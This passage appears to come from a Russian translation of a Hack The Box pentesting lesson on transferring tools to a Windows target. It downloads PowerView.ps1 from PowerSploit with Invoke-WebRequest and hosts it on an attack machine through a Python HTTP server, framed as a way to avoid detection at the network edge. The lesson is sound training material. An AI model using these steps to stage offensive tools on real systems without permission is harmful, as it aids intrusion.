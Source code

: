 ```powershell-session
-a----         8/10/2022   9:12 AM        7299504 PowerView.ps1
```

Использовать Invoke-WebRequest очень просто: мы указываем командлет и точный URL-адрес ресурса, который хотим загрузить:

`-Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"`

После URL-адреса мы указываем расположение и имя файла ресурса в системе Windows, из которой мы его загружаем:

`-OutFile "C:\PowerView.ps1"`

Мы также можем использовать Invoke-WebRequest для загрузки файлов с веб-серверов в локальной сети или в сети, доступной для целевой системы Windows. Часто возникает необходимость передать файлы с нашего атакующего хоста на целевую систему Windows. Одно из преимуществ такого подхода заключается в том, что если одна из наших целей при проведении пентеста — оставаться как можно более незаметными, нам может не понадобиться отправлять запросы в Интернет, которые могут быть обнаружены средствами сетевой безопасности на границе сети. Если бы у нас уже был файл PowerView.ps1, хранящийся на `attack host` , мы могли бы использовать простой веб-сервер на Python для размещения PowerView.ps1 и загрузки его с целевого сервера.

### Пример пути для переноса инструментов в среду

Если бы у нас уже был файл PowerView.ps1, хранящийся на нашем `attack host`, мы могли бы использовать простой веб-сервер Python для размещения PowerView.ps1 и загрузки его с целевого устройства. С атакующего устройства мы хотим убедиться, что файл уже есть или что нам нужно его загрузить. В этом примере мы можем предположить, что файл уже есть на атакующем устройстве, для наглядности.

#### Использование команды ls для просмотра файла (атакующий хост)

  Взаимодействие с Интернетом

```shell-session
Barlogsha@htb[/htb]$ ls

Dictionaries            Get-HttpStatus.ps1                    Invoke-Portscan.ps1          PowerView.ps1  Recon.psd1
Get-ComputerDetail.ps1  Invoke-CompareAttributesForClass.ps1  Invoke-ReverseDnsLookup.ps1  README.md      Recon.psm1
```

Мы запускаем простой веб-сервер на Python в каталоге, где находится PowerView.ps1.

#### Запуск веб-сервера Python (Attack Host)

  Взаимодействие с Интернетом

```shell-session
Barlogsha@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Затем мы загрузим файл с атакующего хоста с помощью Invoke-WebRequest.
